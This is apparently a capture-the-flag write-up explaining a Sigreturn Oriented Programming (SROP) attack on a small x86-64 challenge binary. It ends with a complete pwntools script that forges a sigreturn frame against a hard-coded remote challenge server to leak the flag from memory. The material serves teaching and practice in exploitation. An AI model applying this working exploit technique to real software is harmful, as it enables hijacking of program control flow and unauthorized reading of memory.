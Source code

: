 The task consists of one [64-bit binary](player_bin). Let's examine what's under the hood of this challenge.

<p align="center">
  <img src="screens/code.png">
</p>

First of all, look at the ```0x10000023``` address. Flag for this challenge is placed in this address on the CTF server. So, obviously that we should just print it. Okay, let's examine the code.

There is not so much code and everything is pretty straight. In the first syscall at ```0x1000000``` we input string into ```rsi``` register. After that we prepare registers for the second syscall. If we look at the table of syscalls for [x86_64 architecture](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) then we find out that this syscall is [```sys_rt_sigreturn```](https://linux.die.net/man/2/rt_sigreturn).

For me this doesn't tell much, so let's run the binary and see what this thing do. I input ```'A' * 12``` and stopped before the second syscall. The state of our program looks like that:

<p align="center">
  <img src="screens/before-signal.png">
</p>

Each register has rational and understandable value. Pay your attention to the values laying on the stack. Now, let's execute this ```sys_rt_sigreturn```:

<p align="center">
  <img src="screens/after-signal.png">
</p>

You can think "What the heck?", but look at the stack before executing the syscall and you find out that all registers are set up with the values from the stack. This named a stack frame. According to the Linux man page, ```sys_rt_sigreturn``` function returns from signal handler and cleanup stack frame. So, if we input a pretty big string then we can control stack frame and hence overwrite all registers, sweet. This technique called **SROP** -- Sigreturn Oriented Programming. You can read about it on Google :3

What's next? We can control all registers including ```rip```. The idea is pretty simple: To change ```rip``` to syscall address (doesn't matter which of the two) and set all registers to write the flag into ```stdout```. There are two ways to do this:
- Using ```pwntools``` and its built-in class for Sigreturn frames. Then set needed registers with desirable values and input them.
- And more complex way: finding the order of registers in a stack frame and create this frame by yourself.

I chose the first way, but you can improve your skills by creating a stack frame by yourself (I did it too).

[Exploit](exploit.py) that creates the stack frame and input it is placed below:

```python
import struct

from pwn import *


def main():
    context.clear()
    context.arch = "amd64"

    rm = remote('163.172.176.29', 9034)
    
    frame = SigreturnFrame()
    frame.rax = 0x1
    frame.rdi = 0x1
    frame.rsi = struct.unpack('Q', '\x23\x00\x00\x10\x00\x00\x00\x00')[0]
    frame.rdx = 0x30
    frame.rip = struct.unpack('Q', '\x12\x00\x00\x10\x00\x00\x00\x00')[0]


    rm.send(bytes(frame))
    rm.interactive()


if __name__ == '__main__':
    main()

    
```